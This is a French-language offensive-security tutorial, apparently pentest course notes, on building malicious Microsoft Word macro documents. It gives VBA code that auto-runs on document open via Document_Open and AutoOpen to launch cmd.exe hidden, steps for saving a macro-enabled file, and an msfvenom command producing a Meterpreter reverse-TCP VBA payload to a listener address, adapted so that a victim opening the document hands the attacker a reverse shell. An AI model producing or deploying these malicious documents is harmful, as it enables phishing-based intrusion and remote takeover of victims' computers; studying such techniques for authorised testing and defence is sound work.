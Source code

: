 VBA (Visual Basic for Applications), un langage de programmation mis en œuvre par Microsoft pour les applications telles que Microsoft Word, Excel, PowerPoint, etc... pour automatiser les tâches de presque toutes les interactions clavier et souris entre un utilisateur et les applications Microsoft Office.

---
#### Microsoft Word Macro
Utilise des macros pour créer des documents Microsoft malveillants:

1. Créez un nouveau document Microsoft vierge pour créer notre première `macro` .

2. Modifiez maintenant le document Word et créez une fonction macro qui exécute un `cmd.exe`  ou tout fichier exécutable,  

3. Afin d'exécuter pour automatiquement le code VBA une fois le document ouvert, nous pouvons utiliser des fonctions intégrées telles que  `AutoOpen`  et  `Document_open` . 

```javascript
Sub Document_Open()
  PoC
End Sub

Sub AutoOpen()
  PoC
End Sub

Sub PoC()
	Dim payload As String
	payload = "cmd.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

4. Il est important de noter que pour que la macro fonctionne, nous devons la sauvegarder au format _Macro-Enabled_ tel que` .doc` et  `docm` . 

5. Enregistrons maintenant le fichier en tant que modèle **`Document Word 97-2003`**


> [!NOTE] Bon a savoir
Nous pouvons combiner les VBA avec des méthodes telles que les HTA et WSH. Les VBA/macros en eux-mêmes ne contournent pas intrinsèquement les détections.

---
Créons maintenant une charge utile Meterpreter en mémoire à l'aide du framework Metasploit pour recevoir un shell inversé.

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.128 LPORT=443 -f vba
```

> [!NOTE] une modification doit être effectuée pour que cela fonctionne.
> Le résultat fonctionnera sur une feuille MS Excel. Par conséquent, remplacez  `Workbook_Open()` par  `Document_Open()` pour le rendre adapté aux documents MS Word.
> 
> Une fois le document MS Word malveillant ouvert sur la machine victime, nous devrions recevoir un shell inversé.
